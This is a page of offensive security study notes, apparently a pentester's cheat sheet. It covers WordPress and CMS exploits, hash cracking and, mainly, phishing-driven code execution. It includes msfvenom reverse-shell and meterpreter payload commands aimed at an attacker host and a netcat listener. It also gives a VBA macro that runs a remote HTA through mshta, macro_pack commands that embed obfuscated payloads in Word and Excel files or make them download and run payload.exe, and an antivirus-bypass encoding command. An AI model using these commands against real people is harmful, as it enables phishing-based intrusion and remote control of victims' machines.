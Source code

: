 ### Wordpress 6.1

- Use module `use auxiliary/scanner/http/wordpress_scanner` for scanning vuln plugin
- The specific version of Duplicator plugin have a vuln to read a file. Use `msf` module to exploit

### Httpd Apache - FlatCore CMS

The version 2.0.7 have server side vuln [Exploit-50262](https://www.exploit-db.com/exploits/50262)
- Download and run with python3 (Must have creds)

## Note
- `netstat -antp` Check open port on host
- Doesn't know what type of hash: `hash-identifier <hash>`
- Cracking `Des(Unix)` - `john --format=descrypt hash.txt`

### Pretext Phishing document

Resource:
- [Office phish template](https://github.com/martinsohn/Office-phish-templates)

### HTML Application

Application using HTML, CSS, JS to build, run in a special environment provide by Browser(IE, Edge)
- Can run independent on Windows
- IE (Internet Explorer) automatic execute HTML app with `mshta.exe` 
  - Always executed with security context of the current user.
  - HTA can have access to the local filesystem, registry and can execute ActiveX controls.
  - Allow HTA to run outside the constrains of the web browser
- The attack vector is typically classified as a Drive by Compromise technique
- They can be use for persistence and evasion

Simple HTA app

```html
<html>
    <head>
        <script>
            var payload = 'calc.exe'
            new ActiveXObject('Wscript.Shell').Run(payload)
        </script>
    </head>
    <body>
        <h1> HTA POC</h1>
        <script>
            self.close()
        </script>
    </body>
</html>
```

**Attack**:
- Generate hta payload `msfvenom -p windows/shell_reverse_tcp LHOST=<Host_ip> LPORT=4444 -f hta-psh -o shell.hta
- Set up listener `nc -nvlp 4444`
- Run the hta app on victim machine
  - Or we can create a marco to download the app and automatic open it

```vb
Sub ExecuteHTA()
    Dim url As String
    Dim command As String

    url = "URL_TO_HTA"
    command = "mshta.exe " & url

    Shell command, vbNormalFocus
End Sub
```

### Automating Marco development with MarcoPack

[Marco Pack](https://github.com/sevagas/macro_pack)

- Have obfuscate feature
- Support a lot of format

How to use:
- `marco_pack --list-formats` List supported format
- `echo "calc.exe" | marco_pack.exe -t CMD -o -G "test.doc"` Create marco open calc.exe in the `test.doc` file
  - `-o` Obfuscate
- `--list-templates` List all template of payload

Create payload with msfvenom
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 | .\marco_pack.exe -o -G "resume.doc"` Direct inject payload to marco of file
- `msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=<Host_ip> LPORT=1234 -f exe > payload.exe` -> Host the payload
  - `echo "http:\\Host_ip\payload.exe" "payload.exe" | .\marco_pack.exe -o -G "sheet.xls"` -> Generate the document to download payload and execute it

## Bypass AV

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > rTCPenc.exe`